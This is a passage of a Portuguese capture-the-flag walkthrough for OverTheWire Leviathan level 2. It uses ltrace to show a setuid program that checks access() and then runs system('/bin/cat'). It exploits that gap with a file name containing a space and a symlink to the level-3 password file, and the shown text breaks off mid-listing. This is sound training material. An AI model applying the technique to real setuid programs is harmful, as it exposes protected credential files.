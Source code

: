 Certo, então parece que o programa **printfile** imprime na saída o texto de um arquivo; assim como no comando `cat`. Portanto, podemos supor que o comando `cat` está sendo utilizando em algum lugar do código. Mesmo assim, espere um segundo... Eu prefiro buscar o caminho eficaz, do que ir pelo complicado. Vejamos se conseguimos ver a FLAG do **leviathan3** através do arquivo **/etc/leviathan_pass/** por meio do executável.
```console
leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Parece que não. Vamos criar então um diretório temp, e um novo arquivo de texto que nós poderemos usar para testar o programa com o comando `ltrace`.
```console
leviathan2@melinda:~$ mkdir /tmp/jhalon && touch /tmp/jhalon/test.txt
leviathan2@melinda:~$ cd /tmp/jhalon
leviathan2@melinda:/tmp/jhalon$ ltrace ~/printfile test.txt
__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600 <unfinished ...>
access("test.txt", 4)                            = 0
snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17
system("/bin/cat test.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```    

Pela saída do programa, nós podemos observar uma pequena brecha de segurança na forma como esse programa funciona. Se você olhar atentamente, será possível ver que a função `access()` e **/bin/cat** estão sendo chamadas na entrada do arquivo. O que `access()` faz é verificar as permissões com base no ID real do usuário do processo em vez do ID efetivo do usuário.

Esclarecendo: O real ID do usuário é quem você realmente é (aquele que é o dono do processo), e o ID efetivo do usuário  é o que o sistema operacional analisa para decidir se você tem ou não permissão para fazer algo (na maioria das vezes, existem algumas exceções).

E se nós olharmos de volta para a saída do comando `ls -la` anterior, nós podemos observar que o programa **printfile** pertence ao usuário **leviathan3**. Sendo assim, o comando `access()` irá chamar o processo com os privilégios do usuário **leviathan3**.

Examinando cuidadosamente o código nós também podemos ver que o **/bin/cat** está sendo chamado para imprimir o conteúdo do arquivo. Enquanto o comando `access()` utiliza o caminho completo do arquivo, o **/bin/cat** utiliza apenas o nome do arquivo como caminho. (Isto é devido a como " " está configurado no programa) O que nós podemos fazer aqui é tentar adicionar um espaço ao nome do arquivo, e se nós estivermos corretos, será possível ler um arquivo como 2 arquivos separados pelo **/bin/cat**.
```console
leviathan2@melinda:/tmp/jhalon$touch pass\ file.txt
leviathan2@melinda:/tmp/jhalon$ ltrace ~/printfile "pass file.txt"
__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600 <unfinished ...>
access("pass file.txt", 4)                       = 0
snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22
system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory
/bin/cat: file.txt: No such file or directory
<no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++
```    
Eu estava certo! Como você pode ver, o **/bin/cat** abre o “**pass file.txt**” como dois arquivos separados, “**pass**” e “**file.txt**”. Nós podemos explorar essa vulnerabilidade! Vamos criar um [link simbólico][13] para a parte do  “**pass**” no “**pass file.txt**”, a partir do arquivo **/etc/leviathan_pass/leviathan3**.
```console
leviathan2@melinda:/tmp/jhalon$ ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass
leviathan2@melinda:/tmp/jhalon$ ls -la
total 7864
drwxrwxr-x 2 leviathan2 leviathan2    4096 Sep 10 04:55 .
drwxrwx-wt 1 root       root       8036352 Sep 10 04:55 ..
```

[1]: https://jhalon.github.io/
[2]: https://jhalon.github.io/posts.html
[3]: https://jhalon.github.io/categories.html
[4]: https://jhalon.github.io/about.html
[5]: http://overthewire.org/wargames/
[6]: mailto:jacek.halon@gmail.com
[7]: https://twitter.com/jack_halon
[8]: https://www.linkedin.com/in/jacek-halon-683912b0
[9]: https://github.com/jhalon/
[10]: http://overthewire.org/wargames/leviathan/
[11]: http://linux.die.net/man/1/ltrace
[12]: https://en.wiktionary.org/wiki/Google-fu
[13]: https://en.wikipedia.org/wiki/Symbolic_link
[14]: http://www.rapidtables.com/convert/number/binary-to-ascii.htm
[15]: https://twitter.com/intent/tweet?text=https://jhalon.github.io/over-the-wire-leviathan/ "Share on Twitter"
[16]: https://www.facebook.com/sharer/sharer.php?u=https://jhalon.github.io/over-the-wire-leviathan/ "Share on Facebook"
[17]: https://plus.google.com/share?url=https://jhalon.github.io/over-the-wire-leviathan/ "Share on Google Plus"
[18]: https://www.linkedin.com/shareArticle?mini=true&url=https://jhalon.github.io/over-the-wire-leviathan/ "Share on LinkedIn"
[19]: https://jhalon.github.io/over-the-wire-bandit2/ "OverTheWire: ‘Bandit’ Solutions 11-25 "
[20]: https://jhalon.github.io/over-the-wire-natas1/ "OverTheWire: ‘Natas’ Solutions 1-10 "
[21]: http://github.com/jhalon/
[22]: https://jhalon.github.io/feed.xml
[23]: http://jekyllrb.com
[24]: https://mademistakes.com/work/minimal-mistakes-jekyll-theme/
[25]: http://disqus.com/?ref_noscript
[26]: https://jhalon.github.io/over-the-wire-leviathan/
[27]: https://github.com/BrunoxD